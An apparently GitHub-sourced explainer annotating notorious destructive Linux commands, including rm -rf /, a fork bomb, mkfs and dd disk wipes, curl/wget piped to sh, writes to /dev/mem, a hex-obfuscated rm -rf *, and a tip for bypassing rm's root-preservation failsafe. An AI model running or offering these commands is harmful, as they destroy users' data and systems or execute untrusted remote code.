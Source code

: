 #### Explanations

1. rm -rf /
   Doesn't work anymore. Don't bother. Used to remove all files in the directory tree.
2. :(){ :|: & };:
   Fork bomb. Job control has partially mitigated this by now. It won't fully bork up the system anymore.
3. mkfs /dev/sda1
   Formats first partition on sda disk.
4. cat /dev/zero > /dev/sda1
   Zeroes out the first partition (many systems host either / or /boot there). Using sda might've been better.
5. wget url -O - | sh --
   Grab arbitrary shell script from online and execute it.
6. curl url | sh
   Deviation of 5.
7. dd if=/dev/zero of=/dev/sda2
   Zeroes out sda2. Just like 4 it kinda sucks. It assumes the existence of that partition.
8. echo 726d202d7266202a | xxd -r -p
   Doesn't do jack shit unless put inside $( ). It just echoes `rm -rf *`
9. dd if=/dev/random of=/dev/port
   Write random stuff to memory. Better use urandom instead.
10. echo 1 > /proc/sys/kernel/panic
    Induce kernel panic.
11. cat /dev/port or cat /dev/mem
    View system memory.
12. cat /dev/zero > /dev/mem
    Write zero bits into system memory.
13. sudo chmod -r 444 / or sudo chown -r nobody:nobody /
    Make all files on system read-only and pass their ownership to nobody user.
14. last | reboot
    View last logged in users and send its output to reboot? What kinda bullshit is that?

So, newb commands mostly. Learn from any source but not these shitty commands please `_/\_`

A few common ways to mess with people is

- Creating/changing the `alias` for a command to something else
- Running a script that is not on the system (remotely) with `curl` or `wget`
- Overwriting/Deleting directories/partitions `dd`, `mkfs`
- Fork bombs
- Mess with permissions so you/none can get access

#### Delete the root directory `/`

In Linux system, everything is a file. And all files live under the root directory, the path for which is `/`. `rm -rf /` force deletes the root directory, basically deleting everything you have on the system.

Built-in failsafe has been implemented since 2006. This one is one of those myths that just does not die.

You can circumvent the `--no-preserve-root` failsafe by doing `rm -rf /*` instead. An empty root directory is no more useful than a deleted root directory.
